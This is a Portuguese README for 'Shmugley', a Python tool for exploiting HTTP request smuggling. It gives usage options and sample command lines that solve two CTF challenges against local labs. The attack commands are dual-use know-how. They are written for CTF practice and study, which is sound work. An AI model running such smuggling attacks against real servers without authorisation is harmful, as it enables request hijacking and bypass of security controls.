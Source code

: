 # Shmugley
Shmugley é uma ferramenta que ajuda a explorar a vulnerabilidade de HTTP request smuggling. É baseada no número de respostas do servidor, então pode acabar mostrando falso positivos, principalmente se usar o modo CLTE, a ferramenta também avisa quando tem um timeout na requisição, isso pode ajudar na exploração.

A parte de tratar requisições foi levemente modificada do projeto [Smuggler](https://github.com/defparam/smuggler).

# Utilização
Basicamente é preciso definir cada requisição que será feita no smuggling, existem as opções `-Hn` que define os headers do n-ésimo request, `-Xn` que define o método e `--one`, `--two`, até `--five` que define o caminho, se o caminho for `404` ele tentará buscar um erro 404 no servidor.

```sh
python shmugley.py http://127.0.0.1/ --one 404 --two / -X1 GET -X2 PATCH
```

Também existe a opção `--request arquivo` que le o `arquivo` e usa ele como base dos requests.

```sh
python shmugley.py http://127.0.0.1/ --request request.txt
```

Por padrão alguns payloads de `Transfer-Encoding` estão disponíveis, mas pode ser que eles não sejam os melhores, então também tem como passar um dicionário para a exploração. Aí todos os payloads contendo no dicionário vão ser executados em ordem.
```sh
python shmugley.py http://127.0.0.1/ dictionary
```

Se precisar ver outras opções é só rodar o script sem nenhum argumento.

```sh
$ python shmugley.py
usage: shmugley.py [-h] [--crlf CRLF] [--request REQUEST] [--random-agent] [--one ONE] [--two TWO] [--three THREE] [--four FOUR] [--five FIVE] [-a ALIGN] [-k]
                   [-v VERBOSE] [-o OUTPUT] [-m {clte,tete,tecl}] [-t CONNECT_TIMEOUT] [-f FILTER] [-s] [-bs] [-H1 HEADER1] [-X1 METHOD1] [-H2 HEADER2]
                   [-X2 METHOD2] [-H3 HEADER3] [-X3 METHOD3] [-H4 HEADER4] [-X4 METHOD4] [-H5 HEADER5] [-X5 METHOD5]
                   url [dictionary]

positional arguments:
  url                   target
  dictionary            custom payloads, to use bytes, prefix with \x

optional arguments:
  -h, --help            show this help message and exit
  --crlf CRLF           CRLF to be used (default rn) [options rn and n]
  --request REQUEST     raw request file
  --random-agent        use random user-agent
  --one ONE             first request specifier
  --two TWO             second request specifier
  --three THREE         third request specifier
  --four FOUR           fourth request specifier
  --five FIVE           fifth request specifier
  -a ALIGN, --align ALIGN
                        send a alignment request after the payload
  -k, --insecure        ignore ssl
  -v VERBOSE, --verbose VERBOSE
                        verbose mode (default: 0)
  -o OUTPUT, --output OUTPUT
                        output file (every request outputs according to verbose)
  -m {clte,tete,tecl}, --mode {clte,tete,tecl}
                        mode of operation
  -t CONNECT_TIMEOUT, --connect-timeout CONNECT_TIMEOUT
                        set timeout (default 10)
  -f FILTER, --filter FILTER
                        show payloads that contains this filter
  -s, --stop            stop on first possible find
  -bs, --binary-search  try to use binary search on content-length, when on clte mode (second request only).
  -H1 HEADER1, --header1 HEADER1
                        custom request 1 headers
  -X1 METHOD1, --method1 METHOD1
                        method for request 1 (default: POST)
  -H2 HEADER2, --header2 HEADER2
                        custom request 2 headers
  -X2 METHOD2, --method2 METHOD2
                        method for request 2 (default: POST)
  -H3 HEADER3, --header3 HEADER3
                        custom request 3 headers
  -X3 METHOD3, --method3 METHOD3
                        method for request 3 (default: POST)
  -H4 HEADER4, --header4 HEADER4
                        custom request 4 headers
  -X4 METHOD4, --method4 METHOD4
                        method for request 4 (default: POST)
  -H5 HEADER5, --header5 HEADER5
                        custom request 5 headers
  -X5 METHOD5, --method5 METHOD5
                        method for request 5 (default: POST)

```

# Exemplos
Existem dois labs baseados em desafios de CTF, um da defcon quals e outro do spamandhex.

Para resolver o desafio uploooadit da defcon quals 2020:
```sh
python shmugley.py http://127.0.0.1:8080 -m clte -X1 GET --two /files/ -H2 "X-guid: 04e7a49f-f5d3-46cb-86b2-e852b27c9029" -H2 "Content-Type: text/plain" -H2 "Content-Length: 289" -a /files/04e7a49f-f5d3-46cb-86b2-e852b27c9029 -v 3
```

Para resolver o desafio babywaf do spamandhex 2020:

```sh
python shmugley.py -m tecl http://127.0.0.1:8080 -X1 GET -X2 GET --one 404 --two /flag -a / -v3
```

# Labs
Para executar os labs leia o `README.md` do que você deseja executar.

### Esse foi o meu projeto de NM do GRIS/UFRJ
